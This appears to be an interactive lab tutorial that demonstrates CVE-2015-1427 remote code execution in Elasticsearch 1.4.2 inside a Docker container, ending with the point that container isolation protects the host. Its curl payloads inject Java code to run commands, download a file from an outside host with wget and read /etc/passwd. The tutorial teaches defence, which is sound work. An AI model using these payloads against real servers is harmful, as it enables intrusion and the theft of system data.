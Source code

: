 This particular exploit took advantage of the Elasticsearch search capabilities. In order for the attack to work is requires data.

#### Insert Data

Use cURL to add a record. ElasticSearch can take a minute to launch, so you may find it's not listening yet.

`curl -XPUT 'http://docker:9200/twitter/user/kimchy1' -d '{ "name" : "Shay Banon" }'`{{execute}}

# Exploit via CVE-2015-1427

With data inserted, we can now exploit the database. An empty instance is not vulnerable to the problem.

This particular version of Elasticsearch (1.4.2) allowed Java code to be used as part of the search. While whitelisting existed, there are other ways to gain access to the Java API required to potentially case damage.

In this case we're using Java to get access to the Operating System name.

`curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'`{{execute}}

This command makes external HTTP requests to download additional files. HTTPBin echos the results on the HTTP request, but this could be additional applications to launch additional attacks.

`curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"wget -O /tmp/testy http://httpbin.org/get\")"}}}'`{{execute}}

Once the process has been started, we can read the file off disk.

`curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /tmp/testy\").getText()"}}}'`{{execute}}

We can also read potentially sensitive files such as a _passwd_.

`curl http://docker:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'`{{execute}}

Because we're running inside a container this won't expose information from our host. This default Docker security gives us huge advantages over running directly on the host.
